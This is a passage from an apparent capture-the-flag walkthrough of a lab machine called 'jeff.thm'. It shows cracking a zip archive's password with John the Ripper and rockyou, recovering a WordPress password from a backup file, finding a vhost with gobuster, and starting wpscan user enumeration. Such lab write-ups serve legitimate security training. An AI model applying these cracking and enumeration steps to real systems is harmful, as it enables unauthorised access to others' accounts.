 $ /data/src/john/run/zip2john backup.zip > backup.hash
$ /data/src/john/run/john backup.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!!Burningbird!!  (backup.zip)
1g 0:00:00:04 DONE (2020-09-05 09:58) 0.2427g/s 3480Kp/s 3480Kc/s 3480KC/s !!rebound!!..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
John found the password to uncompress the archive: !!Burningbird!!. The wpadmin.bak file reveals the Wordpress password.

$ cat wpadmin.bak 
wordpress password is: phO#g)C5dhIWZn3BKP
Question: Is there any Wordpress installation somewhere? Maybe a virtual host?

Another vhost?
Let’s check with gobuster using the vhost brute forcer:

kali@kali:/data/Jeff/files$ gobuster vhost -u http://jeff.thm -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:          http://jeff.thm
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/dirb/common.txt
[+] User Agent:   gobuster/3.0.1
[+] Timeout:      10s
===============================================================
2020/09/05 10:10:01 Starting gobuster
===============================================================
Found: wordpress.jeff.thm (Status: 200) [Size: 25901]
===============================================================
2020/09/05 10:10:26 Finished
===============================================================
Indeed, there is a wordpress.jeff.thm vhost. Let’s add it to our hosts file.

Wordpress
Let’s enumerate the existing users with wpscan.

kali@kali:/data/Jeff/files$ wpscan --url http://wordpress.jeff.thm -e u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.4
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
